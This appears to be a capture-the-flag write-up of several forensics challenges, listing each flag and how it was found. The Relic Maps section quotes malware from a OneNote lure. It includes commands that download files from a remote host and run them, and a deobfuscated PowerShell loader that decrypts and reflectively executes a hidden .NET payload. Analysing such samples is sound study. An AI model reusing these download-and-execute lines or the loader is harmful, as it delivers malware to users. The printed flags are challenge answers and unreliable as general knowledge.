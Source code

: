 # Forensics Challenges

## Plaintext Tleasure

As the title says - the flag is in plain text in capture.pcap - HTB{th3s3_4l13ns_st1ll_us3_HTTP}

## Alien Cradle

View cradle.ps1, `$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`
> HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}

## Extraterrestrial Persistence

Yet another base64 string.
> HTB{th3s3_4l13nS_4r3_s00000_b4s1c}

## Packet Cyclone

Just run the recommended tool ([chainsaw](https://github.com/WithSecureLabs/chainsaw)) and answer questions based on its output.

## Relic Maps

Download relicmaps.one
I don't have OneNote installed so just ran `strings` on it and found this interesting piece (VBScript in HTML - I guess it was supposed to run when you view the file?):

```powershell
<#snip#>
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
<#snip#>
```

Download both files. Spent some time investigating topsecret-maps.one contents, extracted PNG with a map - but it turned out to be a red herring.
Next, concentrated on the obfuscated BAT file.
Obfuscation is pretty simple:
first, `set "eFlP=set "` ie `set` command becomes `eFlP`
then a long chain of `%eFlP%"ualBOGvshk=ws"` - `set SOMETHING=....` where `SOMETHING` is a random string and `....` is 4 characters.
Either use search & replace (manual, long process) or script it to deobfuscate the file.

This should produce the following result (some variables renamed for clarity):

```powershell
$Base64Str = "SEWD/RSJz4q <#snip#> ="

$BinaryStream = [System.Convert]::FromBase64String($Base64Str);
$AESDecryptor = New-Object System.Security.Cryptography.AesManaged;
$AESDecryptor.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$AESDecryptor.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$AESDecryptor.Key = [System.Convert]::FromBase64String('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$AESDecryptor.IV = [System.Convert]::FromBase64String('2hn/J717js1MwdbbqMn7Lw==');
$AESDecryptorObject = $AESDecryptor.CreateDecryptor();
$DecryptedBinaryStream = $AESDecryptorObject.TransformFinalBlock($BinaryStream, 0, $BinaryStream.Length);
$AESDecryptorObject.Dispose();
$AESDecryptor.Dispose();

$mNKMr = New-Object System.IO.MemoryStream(, $DecryptedBinaryStream);
$bTMLk = New-Object System.IO.MemoryStream;
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$NVPbn.CopyTo($bTMLk);
$NVPbn.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();
$DecryptedBinaryStream = $bTMLk.ToArray();
$gDBNO = [System.ReflectionAssembly]::Load($DecryptedBinaryStream);
$PtfdQ = $gDBNO.EntryPoint;
$PtfdQ.Invoke($null, (, [string[]] ('%*')))%
```

Then I modified unobfuscated PowerShell script to dump decrypted buffer contents to a file instead of running it:

```powershell
<#snip#>
$DecryptedBinaryStream = $bTMLk.ToArray();
Set-Content -Path output.file -AsByteStream -Value $EncryptedBinaryStream
```

This produced a .NET dll which I did not bother to reverse engineer since the flag is there in plain text (in UTF-16 encoding):
> HTB{0neN0Te?_iT'5_4_tr4P!}
